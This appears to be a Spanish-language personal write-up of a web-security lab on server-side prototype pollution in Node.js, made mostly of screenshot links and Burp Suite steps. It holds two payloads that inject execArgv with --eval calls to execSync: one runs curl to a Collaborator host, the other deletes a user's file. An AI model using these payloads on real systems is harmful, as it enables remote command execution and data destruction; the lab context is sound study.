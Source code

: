 ![[Pasted image 20230602174822.png]]

![[Pasted image 20230602180718.png]]

	payloads:
"__proto__":{
"execArgv":[
	"--eval=require('child_process').execSync('curl https://YOUR-COLABORATORI-ID.oastify.com')"
]
}

"__proto__":{
"execArgv":[
	"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
]
}

hoy al lab, me logeo y actualizo los datos, luego me voy al history:

![[Pasted image 20230602181342.png]]

![[Pasted image 20230602181425.png]]

![[Pasted image 20230602181452.png]]

![[Pasted image 20230602181515.png]]

notese que aca tengo acceso al admin panel:

![[Pasted image 20230602181541.png]]

![[Pasted image 20230602181602.png]]

me regreso al admin panel y chequeo el history:

![[Pasted image 20230602181728.png]]

paso al repeater y le pongo el primer payload:

![[Pasted image 20230602181852.png]]

ACA ME VOY AL BURP COLLABORATOr y le pego el url:

![[Pasted image 20230602181923.png]]

![[Pasted image 20230602181956.png]]

![[Pasted image 20230602182013.png]]

me paso al burp collab client y presiono poll now, notese que no hay hits, inmediatametne me paso a ejecutar las rutinas de mtto del lab y ahora fallan:


![[Pasted image 20230602182142.png]]****

![[Pasted image 20230602182201.png]]

una vez que fallaron si aparecen interacciones, pego el segundo payload:

![[Pasted image 20230602182326.png]]

![[Pasted image 20230602182342.png]]

luego me paso al lab, regreso a los procesos de mantenimiento y los ejecuto

![[Pasted image 20230602182424.png]]

![[Pasted image 20230602182447.png]]

